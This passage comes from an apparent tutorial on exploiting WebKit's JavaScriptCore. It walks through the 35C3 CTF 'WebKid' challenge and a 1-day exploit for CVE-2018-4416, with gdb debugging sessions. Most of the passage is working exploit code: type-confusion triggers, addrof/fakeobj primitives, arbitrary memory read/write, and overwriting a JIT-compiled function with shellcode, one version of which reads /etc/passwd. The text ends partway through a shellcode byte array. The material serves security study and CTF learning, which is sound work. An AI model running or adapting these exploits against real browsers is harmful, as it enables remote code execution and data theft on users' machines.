   (allow system-audit file-read-metadata)
   
  +(allow file-read* (literal "/flag1"))
  +
  +(allow mach-lookup (global-name "net.saelo.shelld"))
  +(allow mach-lookup (global-name "net.saelo.capsd"))
  +(allow mach-lookup (global-name "net.saelo.capsd.xpc"))
  +
   #if PLATFORM(MAC) && __MAC_OS_X_VERSION_MIN_REQUIRED < 101300
   (import "system.sb")
   #else
#+end_example

The biggest problem here is about =tryDeletePropertyQuickly= function,
which acted like this (comment provided from /Linus Henze/:

#+begin_src cpp
  static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
  {
     // This assert will always be true as long as we're not passing an "invalid" offset
     ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));

     // Try to get the previous structure of this object
     Structure* previous = structure->previousID();
     if (!previous)
         return false; // If it has none, stop here

     unsigned unused;
     // Check if the property we're deleting is the last one we added
     // This must be the case if the old structure doesn't have this property
     bool isLastAddedProperty = !isValidOffset(previous->get(vm, propertyName, unused));
     if (!isLastAddedProperty)
         return false; // Not the last property? Stop here and remove it using the normal way.

     // Assert that adding the property to the last structure would result in getting the current structure
     RELEASE_ASSERT(Structure::addPropertyTransition(vm, previous, propertyName, attributes, offset) == structure);

     // Uninteresting. Basically, this just deletes this objects Butterfly if it's not an array and we're asked to delete the last out-of-line property. The Butterfly then becomes useless because no property is stored in it, so we can delete it.
     if (offset == firstOutOfLineOffset && !structure->hasIndexingHeader(thisObject)) {
         ASSERT(!previous->hasIndexingHeader(thisObject) && structure->outOfLineCapacity() > 0 && previous->outOfLineCapacity() == 0);
         thisObject->setButterfly(vm, nullptr);
     }

     // Directly set the structure of this object
     thisObject->setStructure(vm, previous);

     return true;
  }
#+end_src

In short, one object will fall back to previous structure ID by deleting
an object added previously. For example:

#+begin_example
  var o = [1.1, 2.2, 3.3, 4.4];
  // o is now an object with structure ID 122.
  o.property = 42;
  // o is now an object with structure ID 123. The structure is a leaf (has never transitioned)

  function helper() {
       return o[0];
  }
  jitCompile(helper); // Running helper function many times
  // In this case, the JIT compiler will choose to use a watchpoint instead of runtime checks
  // when compiling the helper function. As such, it watches structure 123 for transitions.

  delete o.property;
  // o now "went back" to structure ID 122. The watchpoint was not fired.
#+end_example

Let's review some knowledge first. In JSC, we have *runtime type checks*
and *watchpoint* to ensure correct type conversion. After a function
running many times, the JSC will not use structure check. Instead, it
will replace it with *watchpoint*. When an object is modified, the
browser should trigger watchpoint to notify this change to fallback to
JS interpreter and generate new JIT code.

Here, restoring to the previous ID does will not trigger =watchpoint=
even though the structure has changed, which means the structure of
*butterfly pointer* will also be changed. However, the JIT code
generated by =helper= will not fallback since *watchpoint* is not
trigged, leading to type confusion. And the JIT code can still access
legacy *butterfly* structure. We can leak/create fake objects.

This is the minimum attack primitive:

#+begin_example
  haxxArray = [13.37, 73.31];
  haxxArray.newProperty = 1337;

  function returnElem() {
      return haxxArray[0];
  }

  function setElem(obj) {
      haxxArray[0] = obj;
  }

  for (var i = 0; i < 100000; i++) {
      returnElem();
      setElem(13.37);
  }

  delete haxxArray.newProperty;
  haxxArray[0] = {};

  function addrof(obj) {
      haxxArray[0] = obj;
      return returnElem();
  }

  function fakeobj(address) {
      setElem(address);
      return haxxArray[0];
  }
  // JIT code treat it as intereger, but it actually should be an object. 
  // We can leak address from it
  print(addrof({})); 
  // Almost the same as above, but it's for write data
  print(fakeobj(addrof({})));
#+end_example

** Utility Functions
   :PROPERTIES:
   :CUSTOM_ID: utility-functions
   :END:
The exploit script creates many utility functions. They help us to
create primitive which you need in almost every webkit exploit. We will
only look at some important functions.

*** Getting Native Code
    :PROPERTIES:
    :CUSTOM_ID: getting-native-code
    :END:
To attack, we need a native code function to write shellcode or ROP.
Besides, functions will only be a native code after running many
times(this one is in =pwn.js=):

#+begin_example
  function jitCompile(f, ...args) {
      for (var i = 0; i < ITERATIONS; i++) {
          f(...args);
      }
  }

  function makeJITCompiledFunction() {
      // Some code that can be overwritten by the shellcode.
      function target(num) {
          for (var i = 2; i < num; i++) {
              if (num % i === 0) {
                  return false;
              }
          }
          return true;
      }
      jitCompile(target, 123);

      return target;
  }
#+end_example

*** Controlling Bytes
    :PROPERTIES:
    :CUSTOM_ID: controlling-bytes
    :END:
In the =int64.js=, we craft a class =Int64=. It uses =Uint8Array= to
store number and creates many related operations like =add= and =sub=.
In the previous chapter, we mention that JavaScript uses *tagged value*
to represent the number, which means that you cannot control the higher
byte. The =Uint8Array= array represents 8-bit unsigned integers just
like native value, allowing us to control all 8 bytes.

Simple example usage of =Uint8Array=:

#+begin_example
  var x = new Uint8Array([17, -45.3]);
  var y = new Uint8Array(x);
  console.log(x[0]); 
  // 17

  console.log(x[1]); // value will be converted 8 bit unsigned integers
  // 211 
#+end_example

It can be merged to a 16 byte array. The following shows us that
=Uint8Array= store in native form clearly, because =0x0201= == =513=:

#+begin_example
  a = new Uint8Array([1,2,3,4])
  b = new  Uint16Array(a.buffer) 
  // Uint16Array [513, 1027]
#+end_example

Remaining functions of =Int64= are simulations of different operations.
You can infer their implementations from their names and comments.
Reading the codes is easy too.

** Writing Exploit
   :PROPERTIES:
   :CUSTOM_ID: writing-exploit
   :END:
*** Detail about the Script
    :PROPERTIES:
    :CUSTOM_ID: detail-about-the-script
    :END:
I add some comments from Saelo's original writeup(most comments are
still his work, great thanks!):

#+begin_example
  const ITERATIONS = 100000;

  // A helper function returns function with native code
  function jitCompile(f, ...args) {
      for (var i = 0; i < ITERATIONS; i++) {
          f(...args);
      }
  }
  jitCompile(function dummy() { return 42; });

  // Return a function with native code, we will palce shellcode in this function later
  function makeJITCompiledFunction() {

      // Some code that can be overwritten by the shellcode.
      function target(num) {
          for (var i = 2; i < num; i++) {
              if (num % i === 0) {
                  return false;
              }
          }
          return true;
      }
      jitCompile(target, 123);

      return target;
  }

  function setup_addrof() {
      var o = [1.1, 2.2, 3.3, 4.4];
      o.addrof_property = 42;

      // JIT compiler will install a watchpoint to discard the
      // compiled code if the structure of |o| ever transitions
      // (a heuristic for |o| being modified). As such, there
      // won't be runtime checks in the generated code.
      function helper() {
          return o[0];
      }
      jitCompile(helper);

      // This will take the newly added fast-path, changing the structure
      // of |o| without the JIT code being deoptimized (because the structure
      // of |o| didn't transition, |o| went "back" to an existing structure).
      delete o.addrof_property;

      // Now we are free to modify the structure of |o| any way we like,
      // the JIT compiler won't notice (it's watching a now unrelated structure).
      o[0] = {};

      return function(obj) {
          o[0] = obj;
          return Int64.fromDouble(helper());
      };
  }

  function setup_fakeobj() {
      var o = [1.1, 2.2, 3.3, 4.4];
      o.fakeobj_property = 42;

      // Same as above, but write instead of reading from the array.
      function helper(addr) {
          o[0] = addr;
      }
      jitCompile(helper, 13.37);

      delete o.fakeobj_property;
      o[0] = {};

      return function(addr) {
          helper(addr.asDouble());
          return o[0];
      };
  }

  function pwn() {
      var addrof = setup_addrof();
      var fakeobj = setup_fakeobj();

      // verify basic exploit primitives work.
      var addr = addrof({p: 0x1337});
      assert(fakeobj(addr).p == 0x1337, "addrof and/or fakeobj does not work");
      print('[+] exploit primitives working');


      // from saelo: spray structures to be able to predict their IDs.
      // var structs = []
      // var i = 0;
      // var abc = [13.37];
      // abc.pointer = 1234;
      // abc['prop' + i] = 13.37;
      // structs.push(abc);
      // var victim = structs[0];
      //
      // and the payload still work stablely. It seems this action is redundant
      var structs = []
      for (var i = 0; i < 0x1000; ++i) {
          var array = [13.37];
          array.pointer = 1234;
          array['prop' + i] = 13.37;
          structs.push(array);
      }

      // take an array from somewhere in the middle so it is preceeded by non-null bytes which
      // will later be treated as the butterfly length.
      var victim = structs[0x800];
      print(`[+] victim @ ${addrof(victim)}`);

      // craft a fake object to modify victim
      var flags_double_array = new Int64("0x0108200700001000").asJSValue();
      var container = {
          header: flags_double_array,
          butterfly: victim
      };

      // create object having |victim| as butterfly.
      var containerAddr = addrof(container);
      print(`[+] container @ ${containerAddr}`);
      // add the offset to let compiler recognize fake structure
      var hax = fakeobj(Add(containerAddr, 0x10));
      // origButterfly is now based on the offset of **victim** 
      // because it becomes the new butterfly pointer
      // and hax[1] === victim.pointer
      var origButterfly = hax[1];

      var memory = {
          addrof: addrof,
          fakeobj: fakeobj,

          // Write an int64 to the given address.
          writeInt64(addr, int64) {
              hax[1] = Add(addr, 0x10).asDouble();
              victim.pointer = int64.asJSValue();
          },

          // Write a 2 byte integer to the given address. Corrupts 6 additional bytes after the written integer.
          write16(addr, value) {
              // Set butterfly of victim object and dereference.
              hax[1] = Add(addr, 0x10).asDouble();
              victim.pointer = value;
          },

          // Write a number of bytes to the given address. Corrupts 6 additional bytes after the end.
          write(addr, data) {
              while (data.length % 4 != 0)
                  data.push(0);

              var bytes = new Uint8Array(data);
              var ints = new Uint16Array(bytes.buffer);

              for (var i = 0; i < ints.length; i++)
                  this.write16(Add(addr, 2 * i), ints[i]);
          },

          // Read a 64 bit value. Only works for bit patterns that don't represent NaN.
          read64(addr) {
              // Set butterfly of victim object and dereference.
              hax[1] = Add(addr, 0x10).asDouble();
              return this.addrof(victim.pointer);
          },

          // Verify that memory read and write primitives work.
          test() {
              var v = {};
              var obj = {p: v};

              var addr = this.addrof(obj);
              assert(this.fakeobj(addr).p == v, "addrof and/or fakeobj does not work");

              var propertyAddr = Add(addr, 0x10);

              var value = this.read64(propertyAddr);
              assert(value.asDouble() == addrof(v).asDouble(), "read64 does not work");

              this.write16(propertyAddr, 0x1337);
              assert(obj.p == 0x1337, "write16 does not work");
          },
      };

      // Testing code, not related to exploit
      var plainObj = {};
      var header = memory.read64(addrof(plainObj));
      memory.writeInt64(memory.addrof(container), header);
      memory.test();
      print("[+] limited memory read/write working");

      // get targetd function
      var func = makeJITCompiledFunction();
      var funcAddr = memory.addrof(func);

      // change the JIT code to shellcode
      // offset addjustment is a little bit complicated here :P
      print(`[+] shellcode function object @ ${funcAddr}`);
      var executableAddr = memory.read64(Add(funcAddr, 24));
      print(`[+] executable instance @ ${executableAddr}`);
      var jitCodeObjAddr = memory.read64(Add(executableAddr, 24));
      print(`[+] JITCode instance @ ${jitCodeObjAddr}`);
      // var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 368));      // offset for debug builds
      // final JIT Code address
      var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 352));
      print(`[+] JITCode @ ${jitCodeAddr}`);

      var s = "A".repeat(64);
      var strAddr = addrof(s);
      var strData = Add(memory.read64(Add(strAddr, 16)), 20);
      shellcode.push(...strData.bytes());

      // write shellcode
      memory.write(jitCodeAddr, shellcode);

      // trigger shellcode
      var res = func();

      var flag = s.split('\n')[0];
      if (typeof(alert) !== 'undefined')
          alert(flag);
      print(flag);
  }

  if (typeof(window) === 'undefined')
      pwn();
#+end_example

** Conclusion on the Exploitation
   :PROPERTIES:
   :CUSTOM_ID: conclusion-on-the-exploitation
   :END:
To conclude, the exploit uses two most important attack primitive -
=addrof= and =fakeobj= - to leak and craft. A JITed function is leaked
and overwritten with our =shellcode= array. Then we called the function
to leak flag. Almost all the browser exploits follow this form.

Thanks, 35C3 CTF organizers especially Saelo. It's a great challenge to
learn WebKit type confusion.

--------------

* Debugging WebKit
  :PROPERTIES:
  :CUSTOM_ID: debugging-webkit
  :END:
Now, we have understood all the theories: architecture, object model,
exploitation. Let's start some real operations. To prepare, use compiled
/JSC/ from *Setup* part. Just use the latest version since we only
discuss debugging here.

I used to try to set breakpoints to find their addresses, but this is
actually very stupid. /JSC/ has many non-standard functions which can
dump information for us (you cannot use most of them in /Safari/!): -
=print()= and =debug()=: Like =console.log()= in /node.js/, it will
output information to our terminal. However, =print= in /Safari/ will
use a real-world printer to print documents. - =describe()=: Describe
one object. We can get the address, class member, and related
information via the function. - =describeArrya()=: Similar to
=describe()=, but it focuses on /array/ information of an object. -
=readFile()=: Open a file and get the content - =noDFG()= and =noFLT()=:
Disable some JIT compilers.

** Setting Breakpoints
   :PROPERTIES:
   :CUSTOM_ID: setting-breakpoints
   :END:
The easiest way to set breakpoints is breaking an unused function.
Something like =print= or =Array.prototype.slice([]);=. Since we do not
know if a function will affect one PoC most of the time, this method
might bring some side effect.

Setting vulnerable functions as our breakpoints also work. When you try
to understand a vulnerability, breaking them will be extremely
important. But their calling stacks may not be pleasant.

We can also customize a debugging function (use =int 3=) in WebKit
source code. Defining, implementing, and registering our function in
=/Source/JavaScriptCore/jsc.cpp=. It helps us to hang WebKit in
debuggers:

#+begin_src cpp
  static EncodedJSValue JSC_HOST_CALL functionDbg(ExecStage*);
  addFunction(vm, "dbg", functionDbg, 0);
  static EncodedJSValue JSC_HOST_CALL functionDbg(ExecStage* exec) {
      asm("int 3");
      return JSValue::encode(jsUndefined());
  }
#+end_src

Since the third method requires us to modify the source code, I prefer
the previous two personally.

** Inspecting JSC Objects
   :PROPERTIES:
   :CUSTOM_ID: inspecting-jsc-objects
   :END:
Okay, we use this script:

#+begin_example
  arr = [0, 1, 2, 3]
  debug(describe(arr))

  print()
#+end_example

Use our *gdb* with *gef* to debug; you may guess out we will break the
=print()=:

#+begin_example
  gdb jsc
  gef> b *printInternal
  gef> r
  --> Object: 0x7fffaf4b4350 with butterfly 0x7ff8000e0010 (Structure 0x7fffaf4f2b50:[Array, {}, CopyOnWriteArrayWithInt32, Proto:0x7fffaf4c80a0, Leaf]), StructureID: 100

  ...
  // Some backtrace
#+end_example

#+begin_quote
  The Object address and butterfly pointer might vary on your machine.
  If we edit the script, the address may also change. Please adjust them
  based on your output.
#+end_quote

We shall have a first glance on the object and its pointer:

#+begin_example
  gef>  x/2gx 0x7fffaf4b4350
  0x7fffaf4b4350:    0x0108211500000064    0x00007ff8000e0010
  gef>  x/4gx 0x00007ff8000e0010
  0x7ff8000e0010:    0xffff000000000000    0xffff000000000001
  0x7ff8000e0020:    0xffff000000000002    0xffff000000000003
#+end_example

What if we change it to float?

#+begin_example
  arr = [1.0, 1.0, 2261634.5098039214, 2261634.5098039214]
  debug(describe(arr))
   
  print()
#+end_example

We use a small trick here: =2261634.5098039214= represents as
=0x4141414141414141= in memory. Finding value is more handy via the
magical number (we use butterfly pointer directly here). In default,
*JSC* will filled unused memory with =0x00000000badbeef0=:

#+begin_example
  gef>  x/10gx 0x00007ff8000e0010
  0x7ff8000e0010:    0x3ff0000000000000    0x3ff0000000000000
  0x7ff8000e0020:    0x4141414141414141    0x4141414141414141
  0x7ff8000e0030:    0x00000000badbeef0    0x00000000badbeef0
  0x7ff8000e0040:    0x00000000badbeef0    0x00000000badbeef0
  0x7ff8000e0050:    0x00000000badbeef0    0x00000000badbeef0
#+end_example

The memory layout is the same as the /JSC Object Model/ part, so we
won't repeat here.

** Getting Native Code
   :PROPERTIES:
   :CUSTOM_ID: getting-native-code-1
   :END:
Now, it's time to get compiled function. It plays an important role in
understanding JSC compiler and exploiting:

#+begin_example
  const ITERATIONS = 100000;

  function jitCompile(f, ...args) {
      for (var i = 0; i < ITERATIONS; i++) {
          f(...args);
      }
  }
  jitCompile(function dummy() { return 42; });
  debug("jitCompile Ready")

  function makeJITCompiledFunction() {
      function target(num) {
          for (var i = 2; i < num; i++) {
              if (num % i === 0) {
                  return false;
              }
          }
          return true;
      }
      jitCompile(target, 123);

      return target;
  }

  func = makeJITCompiledFunction()
  debug(describe(func))

  print()
#+end_example

It's not hard if you read previous section carefully. Now, we should get
their native code in the debugger:

#+begin_example
  --> Object: 0x7fffaf468120 with butterfly (nil) (Structure 0x7fffaf4f1b20:[Function, {}, NonArray, Proto:0x7fffaf4d0000, Leaf]), StructureID: 63
  ...
  // Some backtrace
  ...
  gef>  x/gx 0x7fffaf468120+24
  0x7fffaf468138:    0x00007fffaf4fd080
  gef>  x/gx 0x00007fffaf4fd080+24
  0x7fffaf4fd098:    0x00007fffefe46000
  // In debug mode, it's okay to use 368 as offset
  // In release mode, however, it should be 352
  gef>  x/gx 0x00007fffefe46000+368
  0x7fffefe46170:    0x00007fffafe02a00
  gef>  hexdump byte 0x00007fffafe02a00
  0x00007fffafe02a00     55 48 89 e5 48 8d 65 d0 48 b8 60 0c 45 af ff 7f    UH..H.e.H.`.E...
  0x00007fffafe02a10     00 00 48 89 45 10 48 8d 45 b0 49 bb b8 2e c1 af    ..H.E.H.E.I.....
  0x00007fffafe02a20     ff 7f 00 00 49 39 03 0f 87 9c 00 00 00 48 8b 4d    ....I9.......H.M
  0x00007fffafe02a30     30 48 b8 00 00 00 00 00 00 ff ff 48 39 c1 0f 82    0H.........H9...
#+end_example

Put you dump byte to rasm2:

#+begin_example
  rasm -d "you dump byte here"
  push ebp
  dec eax
  mov ebp, esp
  dec eax
  lea esp, [ebp - 0x30]
  dec eax
  mov eax, 0xaf450c60
  invalid
  jg 0x11
  add byte [eax - 0x77], cl
  inc ebp
  adc byte [eax - 0x73], cl
  inc ebp
  mov al, 0x49
  mov ebx, 0xafc12eb8
  invalid
  jg 0x23
  add byte [ecx + 0x39], cl
  add ecx, dword [edi]
  xchg dword [eax + eax - 0x74b80000], ebx
  dec ebp
  xor byte [eax - 0x48], cl
  add byte [eax], al
  add byte [eax], al
  add byte [eax], al
  invalid
  dec dword [eax + 0x39]
  ror dword [edi], 0x82
#+end_example

Emmmm...the disassembly code is partially incorrect. At least we can see
a draft now.

--------------

* 1 Day Exploitation
  :PROPERTIES:
  :CUSTOM_ID: day-exploitation
  :END:
Let's use the bug in /triggering bug/ section: *CVE-2018-4416*.

It's a type confusion. Since we already talked about /WebKid/, a similar
CTF challenge which has type confusion bug, it won't be difficult to
understand this one. Switch to the vulnerable branch and start our
journey.

PoC is provided at the beginning of the article. Copy and paste the
=int64.js=, =shellcode.js=, and =utils.js= from /WebKid/ repo to your
virtual machine.

** Root Cause
   :PROPERTIES:
   :CUSTOM_ID: root-cause
   :END:
*** Quotation from Lokihardt
    :PROPERTIES:
    :CUSTOM_ID: quotation-from-lokihardt
    :END:
The following is description of *CVE-2018-4416* from /Lokihardt/, with
my partial highlight.

When a =for-in= loop is executed, a =JSPropertyNameEnumerator object= is
created at the beginning and used to store the information of the input
object to the =for-in= loop. Inside the loop, the /structure ID/ of the
"this" object of every =get_by_id= expression *taking the loop variable
as the index is compared to the cached =structure ID= from the
=JSPropertyNameEnumerator object=*. If it's the same, the "this" object
of the =get_by_id= expression *will be considered having the same
structure as the input object* to the =for-in= loop has.

The problem is, it doesn't have anything to prevent the structure from
which the cached /structure ID/ from being freed. As /structure IDs/ can
be reused after their owners get freed, this can lead to /type
confusion/.

*** Line by Line Explanation
    :PROPERTIES:
    :CUSTOM_ID: line-by-line-explanation
    :END:
Comment in =/* */= is my analysis, which might be inaccurate. Comment
after =//= is by Lokihardt:

#+begin_example
  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  function opt(obj) {
      // Starting the optimization.
      for (let i = 0; i < 500; i++) {

      }
      /* Step 3 */
      /* This is abother target */
      /* We want to confuse it(tmp) with obj(fake_object_memory) */
      let tmp = {a: 1};

      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {  // The structure ID of "tmp" is stored in a JSPropertyNameEnumerator.
          /* Step 4 */
          /* Change the structure of tmp to {} */
          tmp.__proto__ = {};

          gc();
          /* The structure of obj is also {} now */
          obj.__proto__ = {};  // The structure ID of "obj" equals to tmp's.

          /* Step 5 */
          /* Compiler believes obj and tmp share the same type now */
          /* Thus, obj[k] will retrieve data from object with offset a */
          /* In the patched version, it should be undefined */
          return obj[k];  // Type confusion.
      }
  }

  /* Step 0 */
  /* Prepare structure {} */
  opt({});

  /* Step 1 */
  /* Target Array, 0x1234 is our fake address*/
  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x1234;

  /* Step 2 */
  /* Trigger type confusion*/
  let fake_object = opt(fake_object_memory);

  /* JSC crashed */
  print(fake_object);
#+end_example

*** Debugging
    :PROPERTIES:
    :CUSTOM_ID: debugging
    :END:
Let's debug it to verify our thought. I modify the original PoC for
easier debugging. But they are almost identical except additional
=print()=:

#+begin_example
  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  function opt(obj) {
      // Starting the optimization.
      for (let i = 0; i < 500; i++) {

      }

      let tmp = {a: 1};

      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {  // The structure ID of "tmp" is stored in a JSPropertyNameEnumerator.
          tmp.__proto__ = {};
          gc();
          obj.__proto__ = {};  // The structure ID of "obj" equals to tmp's.
          debug("Confused Object: " + describe(obj));
          return obj[k];  // Type confusion.
      }
  }

  opt({});

  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x41424344;
  let fake_object = opt(fake_object_memory);
  print()
  print(fake_object)
#+end_example

Then =gdb ./jsc=, =b *printInternal=, and =r poc.js=. We can get:

#+begin_example
  ...

  --> Confused Object: Object: 0x7fffaf6b0080 with butterfly (nil) (Structure 0x7fffaf6f3db0:[Object, {}, NonArray, Proto:0x7fffaf6b3e80, Leaf]), StructureID: 142
  --> Confused Object: Object: 0x7fffaf6cbe40 with butterfly (nil) (Structure 0x7fffaf6f3db0:[Uint32Array, {}, NonArray, Proto:0x7fffaf6b3e00, Leaf]), StructureID: 142

  ...
#+end_example

Let's take a glance at our fake address. JSC is too large to find your
dream breakpoint. Let's set a watchpoint to track its flow instead:

#+begin_example
  gef>  x/4gx 0x7fffaf6cbe40
  0x7fffaf6cbe40: 0x02082a000000008e  0x0000000000000000
  0x7fffaf6cbe50: 0x00007fe8014fc000  0x0000000000000064
  gef>  x/4gx 0x00007fe8014fc000
  0x7fe8014fc000: 0x0000000041424344  0x0000000000000000
  0x7fe8014fc010: 0x0000000000000000  0x0000000000000000
  gef>  rwatch *0x7fe8014fc000
  Hardware read watchpoint 2: *0x7fe8014fc000
#+end_example

We get expected output later:

#+begin_example
  Thread 1 "jsc" hit Hardware read watchpoint 2: *0x7fe8014fc000

  Value = 0x41424344
  0x00005555555bebd4 in JSC::JSCell::structureID (this=0x7fe8014fc000) at ../../Source/JavaScriptCore/runtime/JSCell.h:133
  133     StructureID structureID() const { return m_structureID; }
#+end_example

But why does it show at =structure ID=? We can get answer from their
memory layout:

#+begin_example
  obj (fake_object_memory):
  0x7fffaf6cbe40: 0x02082a000000008e  0x0000000000000000
  0x7fffaf6cbe50: 0x00007fe8014fc000  0x0000000000000064

  tmp ({a: 1}):
  0x7fffaf6cbdc0: 0x000016000000008b  0x0000000000000000
  0x7fffaf6cbdd0: 0xffff000000000001  0x0000000000000000
#+end_example

So, the pointer of =Uin32Array= is returned as an object. And
=m_structureID= is at the beginning of each JS Objects. Since =0x1234=
is the first element of our array, it's reasonable for =structureID()=
to retrieve it.

We can use data in =Uint32Array= to craft fake object now. Awesome!

** Constructing Attack Primitive
   :PROPERTIES:
   :CUSTOM_ID: constructing-attack-primitive
   :END:
*** addrof
    :PROPERTIES:
    :CUSTOM_ID: addrof
    :END:
Now, we should craft a legal object. I choose ={}= (an empty object) as
our target.

How does an empty look like in memory(ignore scripting and debugging
here):

#+begin_example
  0x7fe8014fc000: 0x010016000000008a  0x0000000000000000
#+end_example

Okay, it begins with =0x010016000000008a=. We can simulate it in
=Uint32Array= handy(remember to paste =gc= and =opt= to here):

#+begin_example
  function gc() {
  ... // Same as above's
  }

  function opt(obj) {
  ... // Same as above;s
  }

  opt({});

  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x0000004c;
  fake_object_memory[1] = 0x01001600;
  let fake_object = opt(fake_object_memory);
  fake_object.a = {}

  print(fake_object_memory[4])
  print(fake_object_memory[5])
#+end_example

Two mystery numbers are returned:

#+begin_src shell
  2591768192 # hex: 0x9a7b3e80
  32731 # hex: 0x7fdb
#+end_src

Obviously, it is in pointer format. We can leak arbitrary object now!

*** fakeobj
    :PROPERTIES:
    :CUSTOM_ID: fakeobj
    :END:
Getting a =fakeob= is almost identical to crafting =addrof=. The
difference is that you need to fill an address to =UInt32Array=, then
get the object via attribute =a= in =fake_object=

*** Arbitrary R/W and Shellcode Execution
    :PROPERTIES:
    :CUSTOM_ID: arbitrary-rw-and-shellcode-execution
    :END:
It's similar to the exploit script in =WebKid= challenge. The full
script is too long to explain line by line. You can, however, find it
[[/assets/CVE-2018-4416.js][here]]. You may need to try around 10 rounds
to exploit successfully. It will read your =/etc/passwd= when succeed.
Here is the core code:

#+begin_example
  // get compiled function
  var func = makeJITCompiledFunction();

  function gc() {
      for (let i = 0; i < 10; i++) {
          let ab = new ArrayBuffer(1024 * 1024 * 10);
      }
  }

  // Typr confusion here
  function opt(obj) {
      for (let i = 0; i < 500; i++) {

      }

      let tmp = {a: 1};
      gc();
      tmp.__proto__ = {};

      for (let k in tmp) {
          tmp.__proto__ = {};
          gc();
          obj.__proto__ = {};
          // Compiler are misleaded that obj and tmp shared same type
          return obj[k];
      }
  }

  opt({});

  // Use Uint32Array to craft a controable memory
  // Craft a fake object header
  let fake_object_memory = new Uint32Array(100);
  fake_object_memory[0] = 0x0000004c;
  fake_object_memory[1] = 0x01001600;
  let fake_object = opt(fake_object_memory);

  debug(describe(fake_object))

  // Use JIT to stablized our attribute
  // Attribute a will be used by addrof/fakeobj
  // Attrubute b will be used by arbitrary read/write
  for (i = 0; i < 0x1000; i ++) {
      fake_object.a = {test : 1};
      fake_object.b = {test : 1};
  }

  // get addrof
  // we pass a pbject to fake_object
  // since fake_object is inside fake_object_memory and represneted as integer
  // we can use fake_object_memory to retrieve the integer value
  function setup_addrof() {
      function p32(num) {
          value = num.toString(16)
          return "0".repeat(8 - value.length) + value
      }
      return function(obj) {
          fake_object.a = obj
          value = ""
          value = "0x" + p32(fake_object_memory[5]) + "" + p32(fake_object_memory[4])
          return new Int64(value)
      }
  }

  // Same
  // But we pass integer value first. then retrieve object 
  function setup_fakeobj() {
       return function(addr) {
          //fake_object_memory[4] = addr[0]
          //fake_object_memory[5] = addr[1]
          value = addr.toString().replace("0x", "")
          fake_object_memory[4] = parseInt(value.slice(8, 16), 16)
          fake_object_memory[5] = parseInt(value.slice(0, 8), 16)
          return fake_object.a
       }
  }

  addrof = setup_addrof()
  fakeobj = setup_fakeobj()
  debug("[+] set up addrof/fakeobj")
  var addr = addrof({p: 0x1337});
  assert(fakeobj(addr).p == 0x1337, "addrof and/or fakeobj does not work");
  debug('[+] exploit primitives working');

  // Use fake_object + 0x40 cradt another fake object for read/write
  var container_addr = Add(addrof(fake_object), 0x40)
  fake_object_memory[16] = 0x00001000;
  fake_object_memory[17] = 0x01082007;

  var structs = []
  for (var i = 0; i < 0x1000; ++i) {
      var a = [13.37];
      a.pointer = 1234;
      a['prop' + i] = 13.37;
      structs.push(a);
  }

  // We will use victim as the butterfly pointer of contianer object
  victim = structs[0x800]
  victim_addr = addrof(victim)
  victim_addr_hex = victim_addr.toString().replace("0x", "")
  fake_object_memory[19] = parseInt(victim_addr_hex.slice(0, 8), 16)
  fake_object_memory[18] = parseInt(victim_addr_hex.slice(8, 16), 16)

  // Overwrite container to fake_object.b
  container_addr_hex = container_addr.toString().replace("0x", "")
  fake_object_memory[7] = parseInt(container_addr_hex.slice(0, 8), 16)
  fake_object_memory[6] = parseInt(container_addr_hex.slice(8, 16), 16)
  var hax = fake_object.b

  var origButterfly = hax[1];

  var memory = {
      addrof: addrof,
      fakeobj: fakeobj,

      // Write an int64 to the given address.
      // we change the butterfly of victim to addr + 0x10
      // when victim change the pointer attribute, it will read butterfly - 0x10
      // which equal to addr + 0x10 - 0x10 = addr
      // read arbiutrary value is almost the same
      writeInt64(addr, int64) {
          hax[1] = Add(addr, 0x10).asDouble();
          victim.pointer = int64.asJSValue();
      },

      // Write a 2 byte integer to the given address. Corrupts 6 additional bytes after the written integer.
      write16(addr, value) {
          // Set butterfly of victim object and dereference.
          hax[1] = Add(addr, 0x10).asDouble();
          victim.pointer = value;
      },

      // Write a number of bytes to the given address. Corrupts 6 additional bytes after the end.
      write(addr, data) {
          while (data.length % 4 != 0)
              data.push(0);

          var bytes = new Uint8Array(data);
          var ints = new Uint16Array(bytes.buffer);

          for (var i = 0; i < ints.length; i++)
              this.write16(Add(addr, 2 * i), ints[i]);
      },

      // Read a 64 bit value. Only works for bit patterns that don't represent NaN.
      read64(addr) {
          // Set butterfly of victim object and dereference.
          hax[1] = Add(addr, 0x10).asDouble();
          return this.addrof(victim.pointer);
      },

      // Verify that memory read and write primitives work.
      test() {
          var v = {};
          var obj = {p: v};

          var addr = this.addrof(obj);
          assert(this.fakeobj(addr).p == v, "addrof and/or fakeobj does not work");

          var propertyAddr = Add(addr, 0x10);

          var value = this.read64(propertyAddr);
          assert(value.asDouble() == addrof(v).asDouble(), "read64 does not work");

          this.write16(propertyAddr, 0x1337);
          assert(obj.p == 0x1337, "write16 does not work");
      },
  };

  memory.test();
  debug("[+] limited memory read/write working");

  // Get JIT code address
  debug(describe(func))
  var funcAddr = memory.addrof(func);
  debug(`[+] shellcode function object @ ${funcAddr}`);
  var executableAddr = memory.read64(Add(funcAddr, 24));
  debug(`[+] executable instance @ ${executableAddr}`);
  var jitCodeObjAddr = memory.read64(Add(executableAddr, 24));
  debug(`[+] JITCode instance @ ${jitCodeObjAddr}`);
  var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 368));
  //var jitCodeAddr = memory.read64(Add(jitCodeObjAddr, 352));
  debug(`[+] JITCode @ ${jitCodeAddr}`);

  // Our shellcode
  var shellcode = [0xeb, 0x3f, 0x5f, 0x80, 0x77, 0xb, 0x41, 0x48, 0x31, 0xc0,
                   0x4, 0x2, 0x48, 0x31, 0xf6, 0xf, 0x5, 0x66, 0x81, 0xec, 0xff,
                   0xf, 0x48, 0x8d, 0x34, 0x24, 0x48, 0x89, 0xc7, 0x48, 0x31,
